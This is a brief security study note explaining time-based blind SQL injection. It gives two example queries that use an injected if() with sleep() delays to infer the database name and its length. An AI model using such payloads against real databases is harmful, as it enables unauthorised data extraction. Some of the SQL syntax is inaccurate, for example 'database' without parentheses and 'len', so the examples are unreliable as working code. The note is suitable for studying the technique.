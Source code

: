 ```yaml
---
tags:
  - security
  - sqli
  - web
title: TIME based (Blind) Injection
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


For using time based SQL Injection the command that is being performed should include an WHERE clause
If the condition is true sleep for 2 secs else sleep for 5 seconds

````sql
SELECT * 
FROM users 
WHERE username="sagar" AND if(database="a", sleep(2), sleep(5));

SELECT * 
FROM users 
WHERE username="sagar" AND if(len(database) > 2, sleep(2), sleep(5));
````

The parameters for the sleep() and if() function can be different based on the DB vendor
